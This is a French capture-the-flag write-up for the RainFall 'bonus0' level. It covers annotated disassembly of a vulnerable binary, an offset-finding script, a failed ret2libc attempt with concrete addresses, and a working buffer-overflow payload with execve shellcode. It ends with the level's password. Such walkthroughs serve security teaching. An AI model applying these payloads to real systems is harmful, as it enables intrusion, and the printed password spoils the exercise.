 ```
080484b4 <p>:
 80484b4:	55                   	push   ebp
 80484b5:	89 e5                	mov    ebp,esp
 80484b7:	81 ec 18 10 00 00    	sub    esp,0x1018
 80484bd:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]		; ebp+12 (2e argument)
 80484c0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c3:	e8 e8 fe ff ff       	call   80483b0 <puts@plt>			; puts(" - ")
 80484c8:	c7 44 24 08 00 10 00 	mov    DWORD PTR [esp+0x8],0x1000
 80484cf:	00 
 80484d0:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 80484d6:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax		; char buff[0x1008];
 80484da:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 80484e1:	e8 9a fe ff ff       	call   8048380 <read@plt>			; read(0, buff, 0x1000);
 80484e6:	c7 44 24 04 0a 00 00 	mov    DWORD PTR [esp+0x4],0xa
 80484ed:	00 
 80484ee:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 80484f4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f7:	e8 d4 fe ff ff       	call   80483d0 <strchr@plt>
 80484fc:	c6 00 00             	mov    BYTE PTR [eax],0x0			; *strchr(buff, '\n') = 0
 80484ff:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 8048505:	c7 44 24 08 14 00 00 	mov    DWORD PTR [esp+0x8],0x14
 804850c:	00 
 804850d:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048511:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048514:	89 04 24             	mov    DWORD PTR [esp],eax
 8048517:	e8 d4 fe ff ff       	call   80483f0 <strncpy@plt>		; strncpy(char strn[] (1e arg), buff, 20)
 804851c:	c9                   	leave  
 804851d:	c3                   	ret    

0804851e <pp>:
 804851e:	55                   	push   ebp
 804851f:	89 e5                	mov    ebp,esp
 8048521:	57                   	push   edi
 8048522:	53                   	push   ebx
 8048523:	83 ec 50             	sub    esp,0x50
 8048526:	c7 44 24 04 a0 86 04 	mov    DWORD PTR [esp+0x4],0x80486a0	; " - "
 804852d:	08 
 804852e:	8d 45 d0             	lea    eax,[ebp-0x30]					; char str2[20]
 8048531:	89 04 24             	mov    DWORD PTR [esp],eax
 8048534:	e8 7b ff ff ff       	call   80484b4 <p>						; p(str2, " - ")
 8048539:	c7 44 24 04 a0 86 04 	mov    DWORD PTR [esp+0x4],0x80486a0	; " - "
 8048540:	08 
 8048541:	8d 45 e4             	lea    eax,[ebp-0x1c]					; char str3[28]
 8048544:	89 04 24             	mov    DWORD PTR [esp],eax
 8048547:	e8 68 ff ff ff       	call   80484b4 <p>						; p(str3, " - ")
 804854c:	8d 45 d0             	lea    eax,[ebp-0x30]
 804854f:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048553:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]			; copy_result = ebp+8
 8048556:	89 04 24             	mov    DWORD PTR [esp],eax
 8048559:	e8 42 fe ff ff       	call   80483a0 <strcpy@plt>				; strcpy(copy_result, str2)
 804855e:	bb a4 86 04 08       	mov    ebx,0x80486a4					; " "
 8048563:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]			; copy_result
 8048566:	c7 45 c4 ff ff ff ff 	mov    DWORD PTR [ebp-0x3c],0xffffffff	; -1
 804856d:	89 c2                	mov    edx,
 804856f:	b8 00 00 00 00       	mov    eax,0x0
 8048574:	8b 4d c4             	mov    ecx,DWORD PTR [ebp-0x3c]
 8048577:	89 d7                	mov    edi,edx
 8048579:	f2 ae                	repnz scas al,BYTE PTR es:[edi]
 804857b:	89 c8                	mov    eax,ecx
 804857d:	f7 d0                	not    eax								; strlen(copy_result)
 804857f:	83 e8 01             	sub    eax,0x1
 8048582:	03 45 08             	add    eax,DWORD PTR [ebp+0x8]			; copy_result + strlen(copy_result);
 8048585:	0f b7 13             	movzx  edx,WORD PTR [ebx]				; 0x80486a4 sur 2 octets donc on copy " \0"
 8048588:	66 89 10             	mov    WORD PTR [eax],dx				; *(copy_result + strlen(copy_result)) = " \0"
 804858b:	8d 45 e4             	lea    eax,[ebp-0x1c]					; eax = str3
 804858e:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048592:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048595:	89 04 24             	mov    DWORD PTR [esp],eax
 8048598:	e8 f3 fd ff ff       	call   8048390 <strcat@plt>				; strcat(copy_result, str3)
 804859d:	83 c4 50             	add    esp,0x50
 80485a0:	5b                   	pop    ebx
 80485a1:	5f                   	pop    edi
 80485a2:	5d                   	pop    ebp
 80485a3:	c3                   	ret

080485a4 <main>:
 80485a4:	55                   	push   ebp
 80485a5:	89 e5                	mov    ebp,esp
 80485a7:	83 e4 f0             	and    esp,0xfffffff0
 80485aa:	83 ec 40             	sub    esp,0x40					; 64
 80485ad:	8d 44 24 16          	lea    eax,[esp+0x16]			; char str[42]
 80485b1:	89 04 24             	mov    DWORD PTR [esp],eax
 80485b4:	e8 65 ff ff ff       	call   804851e <pp>				; pp(str)
 80485b9:	8d 44 24 16          	lea    eax,[esp+0x16]
 80485bd:	89 04 24             	mov    DWORD PTR [esp],eax
 80485c0:	e8 eb fd ff ff       	call   80483b0 <puts@plt>		; puts(str)
 80485c5:	b8 00 00 00 00       	mov    eax,0x0
 80485ca:	c9                   	leave  
 80485cb:	c3                   	ret    
```


On va générer de très grandes strings :
```js
var letters = "abcdefghijklmnopqrstuvwxyz"  + "ABCDEFGHIJKLMNOPQRSTUVWXYZ";

function gen() {
    var str = "";
    var repeat = 1;
    while (str.length < 4100) {
        for (let i = 0; i < letters.length && str.length < 4100; i++) {
        str += letters[i % letters.length].repeat(repeat);
    }
        repeat++;
    }
    return str.slice(0, 4100);
}
console.log(gen());
```

Pour la première partie, on utilise les lettres : `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`
Et pour la seconde : `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789`

Comme ça, on pourra trouver facilement l'endroit où on segfault et où on peut faire un `ret2libc` en modifiant l'adresse de `ret`.

On peut voir qu'après avoir injecté les deux strings, on obtient : `0x4d4c4b4a` soit `MLKJ` donc en JKLM en reverse. On a donc deux endroits où ça peut se produire, où au niveau du 35 caractère de la première partie, ou au niveau du 9e de la seconde. On aura juste à changer la seconde string pour savoir:
`letters = "0123456789" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ" + "abcdefghijklmnopqrstuvwxyz" `

`0x43424139`  => `9ABC`, par conséquent, c'est bel et bien la seconde chaine de caractère utilisée.

Donc, on devrais pouvoir appeler `system` en mettant `012345678<system_address><padding [ 4100 - 13 ]>`

Bon, offset de `/bin/sh` dans `objdump -s /lib/i386-linux-gnu/libc-2.15.so` = `0x160c58`

```
(gdb) x/1s 0xb7e2c000 +  0x160c58
0xb7f8cc58:	 "/bin/sh"
(gdb) x/10xw system
0xb7e6b060 <system>:	0x891cec83
```

donc on a l'adresse de `system` et de `/bin/sh`, testons:
```py
print("A" * 4095 + "\n")
print("A" * 9 + "\x60\xb0\xe6\xb7" + "\x90" * 4 + "\x58\xcc\xf8\xb7" + "A" * 4074 + "\x0a")
# print("0\x58\xcc\xf8\xb7\x58\xcc\xf8\xb7\x60\xb0\xe6\xb7" + "\x58\xcc\xf8\xb7" * 1019)
```

En fait ça marche pas, car il n'utilise que 11 octets, et non 12, donc on peut pas injecter le premier argument.

Essayons de reprendre le shell code de l'exercice précédent :
```py
payload = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70" +
		"\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61" +
		"\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52" +
		"\x51\x53\x89\xe1\xcd\x80")
print("A" * 4095)
print("A" * 9 + "\x8e\xe6\xff\xbf\x90" + payload + "\x90" * (4094 - len(payload) - 9 - 4))
```

ATTENTION, il faut les même env que dans `gdb`, donc on fait :
```
(gdb) show env
```
On copie les env, puis dans bash:
```
bonus0@RainFall:~$ vim /tmp/env
bonus0@RainFall:~$ set -a
bonus0@RainFall:~$ source /tmp/env
bonus0@RainFall:~$ set +a
```

Password:
`cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`